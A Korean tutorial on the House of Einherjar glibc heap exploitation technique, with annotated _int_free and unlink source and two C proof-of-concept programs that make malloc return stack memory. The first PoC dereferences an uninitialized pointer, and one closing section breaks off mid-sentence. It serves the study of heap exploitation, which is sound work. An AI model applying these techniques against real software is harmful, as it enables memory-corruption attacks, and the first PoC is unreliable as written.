

# House of Einherjar

small bin 또는 large bin에 포함되는 연속된 두개 이상의 해제된 청크가 존재하는 경우 병합을 시도한다는 것을 악용하는 기법입니다.

이 기법을 이용하면 아래와 같은 것들이 가능합니다.

- 해커가 unsorted bin에 원하는 주소를 넣어 청크를 재할당 받을 수 있습니다.
- top chunk를 변조시켜 해커가 원하는 주소에 청크를 새롭게 할당 받을 수 있습니다.

여기서는 glibc 2.23을 기준으로 작성했습니다.

## __int_free 코드 및 순서도

이 부분은 그냥 참고용으로 보면 됩니다.

```C
// _int_free()
/*
[변수 정리]
p : 현재 해제하려는 청크의 주소
*/
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
#define inuse_bit_at_offset(p, s)					      \
  (((mchunkptr) (((char *) (p)) + (s)))->size & PREV_INUSE)
#define clear_inuse_bit_at_offset(p, s)					      \
  (((mchunkptr) (((char *) (p)) + (s)))->size &= ~(PREV_INUSE))
static void _int_free (mstate av, mchunkptr p, int have_lock)
{
    ...
    nextchunk = chunk_at_offset(p, size);	// nextchunk : 인접한 다음 청크(인접한 높은 주소에 있는 청크)의 주소
    ...
    /* 
    consolidate backward 
    설명 : 현재 free하려는 청크의 prev_inuse_bit가 0이라면 
    인접한 낮은 주소에 있는 청크(이하 '이전 청크')와 병합.
    **첫 번째 house of einherjar 취약점 발생 코드**
    */
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));	// [A]
      unlink(av, p, bck, fwd);
    }

    /* 
    설명 : 만약, 현재 free하려는 청크(이하 '현재 청크')와 인접한 높은 주소에 있는 청크(이하 '다음 청크')가 top chunk가 아니라면
    다음 청크의 다음 청크의 prev_inuse_bit가 0인 경우, 현재 청크와 다음 청크를 병합 후 unsorted bin에 넣음.
    !!사실 이 코드는 house of einherjar에 필요 없는 코드임.. 그냥 붙어있길래 분석도 한겸 넣었으니 무시 ㄱㄱ!!
    */
    if (nextchunk != av->top) {
        /* get and clear inuse bit */
        nextinuse = inuse_bit_at_offset(nextchunk, nextsize);	// 다음 청크의 다음 청크의 prev_inuse_bit 체크

        /* consolidate forward */
        if (!nextinuse) {
            unlink(av, nextchunk, bck, fwd);
            size += nextsize;
        } else
            clear_inuse_bit_at_offset(nextchunk, 0);

        /*
	    Place the chunk in unsorted chunk list. Chunks are
	    not placed into regular bins until after they have
	    been given one chance to be used in malloc.
        */
        
        // ----------------------------------- 여기부턴 unsorted bin에 넣는 과정
        bck = unsorted_chunks(av);
        fwd = bck->fd;
        if (__glibc_unlikely (fwd->bk != bck))	// 이건 현재 청크가 아니라 링크할 unsorted bin이 오염되어 있는지 체크하는 검증 코드
        {
            errstr = "free(): corrupted unsorted chunks";
            goto errout;
        }
        p->fd = fwd;
        p->bk = bck;
        if (!in_smallbin_range(size))
        {
            p->fd_nextsize = NULL;
            p->bk_nextsize = NULL;
        }
        bck->fd = p;
        fwd->bk = p;

        set_head(p, size | PREV_INUSE);
        set_foot(p, size);

        check_free_chunk(av, p);
    }
    /*
    If the chunk borders the current high end of memory,
    consolidate into top
    설명 : 만약, 다음 청크가 top chunk라면 병합.
    **두 번째 house of einherjar 취약점 발생 코드**
    */
    else {
      size += nextsize;
      set_head(p, size | PREV_INUSE);
      av->top = p;	// [B]
      check_chunk(av, p);
    }
    ...
}
```



위의 순서도에서 취약점이 발생하는 부분은 '이전 chunk와 병합 시도' 부분과 'top chunk와 병합' 부분이다.


## [A] : House of Einherjar 첫 번째 취약점

첫 번째 취약점은 unsorted bin에 원하는 주소를 넣어 청크를 재할당 받는 방법입니다.

```C
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s))) // 인접한 청크의 주소를 알아냄
static void _int_free (mstate av, mchunkptr p, int have_lock)
{
    ... 
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));	// [A] // 여기서 p는 이전 청크의 헤더를 포함한 주소가 된다.
      unlink(av, p, bck, fwd);
    }
    ...
}
```

- 첫 번째 취약점은 위 코드의 [A]에서 발생합니다.
- p(현재 청크의 주소)의 prev_inuse_bit의 값이 0이라면 인접한 낮은 주소에 위치한 청크(이하 '이전 청크')와 병합을 진행합니다.
  - p의 prev_inuse_bit값이 0이란 것은 인접한 이전 청크가 이미 free 되어 있다는 것을 뜻하기 때문입니다.
- 이때, prevsize 값에 대한 범위 검증이 없습니다. 즉, ```p->prev_size```값을 스택 등 해커가 원하는 위치의 주소와의 offset으로 덮는다면 해당 위치에 존재하는 fake chunk와 병합을 진행하게 될 것입니다. 
- 병합이 끝난 뒤에는 fake_chunk의 주소가 unsorted bin에 들어가게 됩니다. 
  - 이 후 fake_chunk의 size값을 재할당 받고 싶은 만큼의 크기로 수정한 후 해당 size만큼 재할당을 받게 되면 fake chunk에 재할당 되게 됩니다.

### [A] : 실습

```C
// gcc house_of_einherjar1.c -o house_of_einherjar1
#include <stdio.h>
#include <stdlib.h>

int main(){

        long * ptr1;
        long * ptr2;
        long * ptr3;

        long * fake_chunk;
        long * ptr4;

        ptr1 = malloc(0x70);
        ptr2 = malloc(0x100); // small bin size
        ptr3 = malloc(0x30);

        fprintf(stderr, "ptr2 address : %p\n", ptr2);

        ptr2[-1] = 0x110; // size
        ptr2[-2] = (char*)(ptr2-2) - (char*)fake_chunk; // prev_size

        fprintf(stderr, "fake_chunk address : %p\n", fake_chunk);

        fake_chunk[1] = (char*)(ptr2-2) - (char*)fake_chunk; // size
        fake_chunk[2] = fake_chunk;     // for unlink bypass
        fake_chunk[3] = fake_chunk;     // for unlink bypass
        fake_chunk[4] = fake_chunk;     // for unlink bypass
        fake_chunk[5] = fake_chunk;     // for unlink bypass

        fprintf(stderr, "fake_chunk size : 0x%lx\n", fake_chunk[1]);
        fprintf(stderr, "fake_chunk->fd : 0x%lx\n", fake_chunk[2]);
        fprintf(stderr, "fake_chunk->bk : 0x%lx\n", fake_chunk[3]);

        free(ptr2);

        fake_chunk[1] = 0x211; // size

        ptr4 = malloc(0x200);

        fprintf(stderr, "ptr4 address : %p\n", ptr4-2); // ptr4의 헤더가 포함된 주소

        return 0;
}
```


결과를 보면 ptr4의 주소가 fake_chunk의 주소와 똑같이 되었다는 것을 알 수 있다.

즉, ptr4는 fake_chunk의 위치(스택)에 할당되었다.

## [B] : House of Einherjar 두 번째 취약점

두 번째 취약점은 top chunk에 원하는 주소를 넣어 해커가 원하는 주소에 청크를 새로 할당 받는 방법입니다.

두 번째 취약점은 첫번째 취약점의 내용이 포함된 방법입니다.

```C
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s))) // 인접한 청크의 주소를 알아냄
#define chunksize(p)         ((p)->size & ~(SIZE_BITS)) // 청크의 size값을 알아냄
static void _int_free (mstate av, mchunkptr p, int have_lock)
{
    ...
    nextchunk = chunk_at_offset(p, size);	// nextchunk : 인접한 다음 청크(인접한 높은 주소에 있는 청크)의 주소
    ...
    nextsize = chunksize(nextchunk);	// 다음 청크의 size값
    ...
    if (nextchunk != av->top) {
        ...
    }
    /*
    If the chunk borders the current high end of memory,
    consolidate into top
    설명 : 만약, 다음 청크가 top chunk라면 병합.
    **두 번째 house of einherjar 취약점 발생 코드**
    */
    else {
      size += nextsize;
      set_head(p, size | PREV_INUSE);
      av->top = p;	// [B]
      check_chunk(av, p);
    }
    ...
}
```

- 두 번째 취약점은 위 코드의 [B]에서 발생합니다.

- 만약 p(현재 청크의 주소)의 다음 청크가 top chunk라면 top chunk와 현재 청크를 병합 시킵니다.

- [B] 부분을 보면 현재 청크의 size값을 top chunk의 size값과 더한 후 현재 청크의 주소(p)를 arena의 top 멤버 변수에 저장합니다. 이때, p값에 대한 위치 검증이 없어서 취약점이 발생합니다.

- 이 두번째 코드는 첫 번째 취약점 코드(이전 청크와 병합) 이후에 실행됩니다. 

  즉, 만약 첫 번째 취약점을 통해 이미 p와 fake chunk가 병합된 후 바로 다음에 위치한 top chunk와도 병합을 한다면?

  [B]코드에 의해 top_chunk의 주소는 fake chunk로 변조 되게 됩니다.

- 이 후에는 해커가 원하는 크기의 청크를 할당 받으면, fake chunk에서부터 할당을 받게 됩니다.

### [B] : 실습

```C
// gcc house_of_einherjar2.c -o house_of_einherjar2
#include <stdio.h>
#include <stdlib.h>

int main(){

        long * ptr1;
        long * ptr2;
        long * ptr3;

        long fake_chunk[6];
        long * ptr4;

        ptr1 = malloc(0x70);
        ptr2 = malloc(0x100); // small bin size

        fprintf(stderr, "ptr2 address : %p\n", ptr2);

        ptr2[-1] = 0x110; // size
        ptr2[-2] = (char*)(ptr2-2) - (char*)fake_chunk; // prev_size

        fprintf(stderr, "fake_chunk address : %p\n", fake_chunk);

        fake_chunk[1] = (char*)(ptr2-2) - (char*)fake_chunk; // size
        fake_chunk[2] = fake_chunk;     // for unlink bypass
        fake_chunk[3] = fake_chunk;     // for unlink bypass
        fake_chunk[4] = fake_chunk;     // for unlink bypass
        fake_chunk[5] = fake_chunk;     // for unlink bypass

        fprintf(stderr, "fake_chunk size : 0x%lx\n", fake_chunk[1]);
        fprintf(stderr, "fake_chunk->fd : 0x%lx\n", fake_chunk[2]);
        fprintf(stderr, "fake_chunk->bk : 0x%lx\n", fake_chunk[3]);

        free(ptr2); // av->top = fake_chunk

        ptr4 = malloc(0x200);
        ptr3 = malloc(0x200);	// new chunk!

        fprintf(stderr, "ptr4 address : %p\n", ptr4-2);
        fprintf(stderr, "ptr4->size : %p\n", *(ptr4-1));
        fprintf(stderr, "ptr3 address : %p\n", ptr3-2);
        fprintf(stderr, "ptr3->size : %p\n", *(ptr3-1));

        return 0;
}
```


결과를 보면 ptr4의 주소가 fake_chunk의 주소와 똑같이 되었다는 것을 알 수 있다.

그리고 ptr4 이후 한번더 할당받은 ptr3 또한 스택에 위치한다는 점으로 fake_chunk의 주소가 성공적으로 av->top에 들어갔다는 것을 알 수 있다.

## 정리

정리를 하자면 아래와 같다.


- 구조를 위와 같은 형태로 인식하게 만들어서 Allocated Chunk를 Free 하게되면, Fake Freed Chunk와 Allocated Chunk가 병합되면서 Fake Freed Chunk의 주소가 Unsorted Bin 또는 Top Chunk에 들어가게 되는 것이다.

- 기법을 사용하기 위해서는 다음의 **조건**을 맞춰주면 된다.

  - **fake freed chunk의 주소->size == p의 주소->size**

    - fake freed chunk의 주소->size에는 prev_inuse_bit를 설정하지 않아도 된다. 

      - 이전 청크의 prev_inuse_bit는 체크하지 않기 때문이다. 

        왜냐하면 정상적인 경우 이전 청크의 이전 청크는 해제 되지 않은 청크여야만 하기 때문이다. (병합 때문에)

  - **p의 주소->size의 prev_inuse_bit == 0** (이전 청크가 해제되어있어야지 병합을 하기 때문)

  - **size = p의 주소-fake chunk의 주소** (p는 헤더가 포함된 현재 청크의 주소)

  - **fake freed chunk의 주소->fd = fake freed chunk의 주소, **

    **fake freed chunk의 주소->bk = fake freed chunk의 주소**,

    **fake freed chunk의 주소->fd_nextsize = fake freed chunk의 주소**, 

    **fake freed chunk의 주소->bk_nextsize  = fake freed chunk의 주소**

    - unlink에서의 검증을 우회하기 위함임.
	  
	  - ```C
      /*
      P = 현재 청크의 주소
      */
      #define unlink(AV, P, BK, FD) {                                            
      FD = P->fd;								      
      BK = P->bk;		
      if (__builtin_expect (FD->bk != P || BK->fd != P, 0))	// [A]
          malloc_printerr (check_action, "corrupted double-linked list", P, AV);		
      else {								      
          FD->bk = BK;							      
          BK->fd = FD;							      
          if (!in_smallbin_range (P->size) && __builtin_expect (P->fd_nextsize != NULL, 0)) {		   
            	if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0) || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    // [B]
                  malloc_printerr (check_action, "corrupted double-linked list (not small)", P, AV);			   
             ... 							      
          }									      
      }      
	    ```
	  
	    위와 같은 검증 코드를 우회하기 위함임.  
	  
	    - 검증 코드 [A] : ```FD->bk != P || BK->fd != P```
	    - 검증 코드 [B] : ```(P->fd_nextsize->bk_nextsize != P) || (P->bk_nextsize->fd_nextsize != P)```
	    - P가 fake chunk의 주소가 되면서 ```size값 = p의 주소-fake chunk의 주소```되며 그 크기가 small bin의 범위보다 크게 벗어나게 되었기 때문에 [B]에 대한 검증 우회도 해줘야한다. (size의 형 : unsigned int)
	    - fd, bk, fd_nextsize, bk_nextsize를 fake freed chunk의 주소로 똑같이 덮으면 결국엔 P, 즉 자기자신의 주소를 가리키게 되기 때문에 우회가 가능하다.


## Reference

https://tribal1012.tistory.com/141 - _int_free 순서도

https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c#L3841 - _int_free 소스 코드


## 참고로...

참고로 p의 이전 청크와 다음 청크만 생


## 잡담

실습2 코드는 나중에...